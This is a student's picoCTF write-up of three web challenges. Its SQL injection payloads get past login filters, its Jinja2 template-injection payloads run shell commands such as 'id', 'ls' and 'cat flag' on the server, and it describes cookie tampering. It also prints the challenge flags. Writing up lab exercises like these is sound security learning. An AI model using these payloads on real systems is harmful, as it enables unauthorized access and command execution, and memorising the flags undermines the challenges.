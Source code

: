 # 1. Web Gauntlet 

Can you beat the filters?
Log in as admin http://shape-facility.picoctf.net:64164/ http://shape-facility.picoctf.net:64164/filter.php

## Solution:

1.We are given two links,upon opening the links we can see a login page and a page with some text   
![screenshot of login page](./Screenshots/WebExp_Challenge1_login.jpg)
and text on the second page is 

```
Round1: or
```
<br>
2.I start by inputting a random username and password to see what kind of error is shown.However along with an error,the page also shows an sql command.This makes me believe that this challenge is based on sql injection.

![screenshot of sql command 1](./Screenshots/WebExp_Challenge1_SQLcommand1.jpg)
Now we need to give the username such that it breaks the sql command and prevents the page from fetching any password.I first try using 'or', however that does not take me anywhere,this makes me conclude that the text on page 2 tells us what is restricted.For the second try i use '--',this is used to make comments in sql.Using that I am hoping that the page is unable to fetch the password from the database.So to test my theory I enter "admin'--" in the admin field and enter a random password.

![screenshot of sql round 1](./Screenshots/WebExp_Challenge1_Round1.jpg)
This is accepted by the page and I move on to the next round.The final sql query would look like
```
SELECT * FROM users WHERE username='admin' --' AND password='pico'
```
<br>
3.Now on after reaching round 2,I check page 2 and see that new restrictions have been applied.
```
Round2: or and like = --
```
However '--' is not the only way SQL supports comments, we can use '/* */' to write multiline comments.

![screenshot of sql round 2](./Screenshots/WebExp_Challenge1_Round2.jpg)
This works and we move to round 3.The final sql query would look like
```
SELECT * FROM users WHERE username='admin' /*' AND password='pass'
```
<br>
4.Again checking page 2,I find new restrictions.

```
Round3: or and = like > < --
```

Seeing how our multiline comment injection is still not restricted I just use that again and we move to the next round.
<br>

5.Checking page 2,I find more new restrictions.

```
Round4: or and = like > < -- admin
```

Now the word admin has been banned,I need to find a way to input admin.First I think of using the concat() function,however upon thinking a bit it does not seem feasible as the input I give is between quotes and due to that it will be taken as a string.Then I try to use '+' operator to add two strings to make the word admin,however that fails.Upon further research ,I find a concat operator '||' and try using that.

![screenshot of sql round 4](./Screenshots/WebExp_Challenge1_Round4.jpg)
This is succesful and I move on to the next round.The sql query would look like
```
SELECT * FROM users WHERE username='ad'||'min'/*' AND password='pass'
```
<br>
6.Round 5 the final round upon logging in on this page,we should get the flag.Like always,I check page 2 for restrictions
```
Round5: or and = like > < -- union admin
```
Seeing how our concat operator and multiline comment trick are still not restricted,I just try using that again.
It works and I am shown a message.

![screenshot of sql round 5](./Screenshots/WebExp_Challenge1_Round5.jpg)
Going to page 2,I can see the final flag!

![screenshot of sql flag](./Screenshots/WebExp_Challenge1_flag.jpg)
The sql query would be:
```
ad'||'min'/*
```

## Flag:
```
picoCTF{y0u_m4d3_1t_79a0ddc6}
```

## Concepts learnt:

- Concantenation operator(Double Pipe ||):Used to join two or more strings.

## Resources:

- geeksforgeeks(https://www.geeksforgeeks.org/sql/sql-concatenation-operator/)

***

# 2. SSTI1 

I made a cool website where you can announce whatever you want! Try it out!
I heard templating is a cool and modular way to build web apps! Check out my website here!

## Solution:

1.Upon accessing the provided URL,I found a simple webpage with a text input field and a button.
![screenshot of webpage](./Screenshots/WebExp_Challenge2_webpage.jpg)
It displays back whatever I input in the field
![screenshot of webpage output ](./Screenshots/WebExp_Challenge2_output.jpg)

2.Upon doing some research on SSTI(Server-Side Template Injection),I give a prompt
```
{{'a'+'b'}}
```
The output is
![screenshot of webpage test output ](./Screenshots/WebExp_Challenge2_testoutput.jpg)

3.To confirm that this is Jinja 2 and that we can run commands,I give the input
```
{{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
and we get the output
![screenshot of webpage test ](./Screenshots/WebExp_Challenge2_test1.jpg)

4.Now that we have confirmed our suspicions we can check the files present in the directory using
```
{{ request.application.__globals__.__builtins__.__import__('os').popen('ls').read() }}
```
![screenshot of webpage current directory](./Screenshots/WebExp_Challenge2_test2.jpg)

5.Upon opening the file present in the directory we get the flag,we use the input
```
{{ request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read() }}
```
![screenshot of webpage flag ](./Screenshots/WebExp_Challenge2_flag.jpg)


## Flag:

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_dcdca99a}
```

## Concepts learnt:

- Polyglot Payloads: You learn how to use simple expressions, often called polyglot payloads (e.g., {{ 7 * 7 }} or {{ 'a' + 'b' }}), to test for the vulnerability. If the result is the computed answer (49 or ab) instead of the raw text, the server is executing the input.
- Engine Fingerprinting: learnt how identify the specific template engine (Jinja2, Twig, ERB, etc.) to successfully exploit the vulnerability. This is often done by observing how the engine handles unique syntax or operations.


## Resources:

- Testing for Server-side Template Injection(https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/18-Testing_for_Server-side_Template_Injection)
- Server-side template injection(https://portswigger.net/web-security/server-side-template-injection)


***

# 3. Cookies

Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:54219/

## Solution:

1.The link takes us to a webpage with a input box and a button.
![screenshot of webpage output ](./Screenshots/WebExp_Challenge3_mainpage.jpg)

2.I open the developer tab and go to the cookies tab and see one cookie named 'name' with value -1
![screenshot of webpage output ](./Screenshots/WebExp_Challenge3_cookies.jpg)

3.I input 'snickerdoodle' and the page gives a response and the value in the cookie 'name' changes to 0
![screenshot of webpage output ](./Screenshots/WebExp_Challenge3_snickerdoodle.jpg)

4.I look up most famous cookies and try entering the top 10 names.I input 'Chocolate chip' and the value in the cookie 'name' changes to 1.
![screenshot of webpage output ](./Screenshots/WebExp_Challenge3_chocolatechip.jpg)

5.From this process I conclude that different values of the cookie 'name' will result in different cookie names at the output.Now we just need to cycle through numbers till we get some information to move forward.I got lucky and found the flag when i changed value of cookie 'name' to 18


## Flag:

```
picoCTF{3v3ry1_l0v3s_c00k135_96cdadfd}
```

## Concepts learnt:

- Client-Side Data Storage: Learned that web applications use cookies to store user-specific data on the client's browser. This data is sent back to the server with every request.
- Cookie Manipulation: Understood that if an application relies solely on an unvalidated cookie value (like name) to determine content, an attacker can manipulate that value to access unauthorized data.



## Resources:

- Cookie Management (Browser Developer Tools)
- Understanding Cookies in Web Browsers(https://www.geeksforgeeks.org/websites-apps/understanding-cookies-in-web-browsers/)

***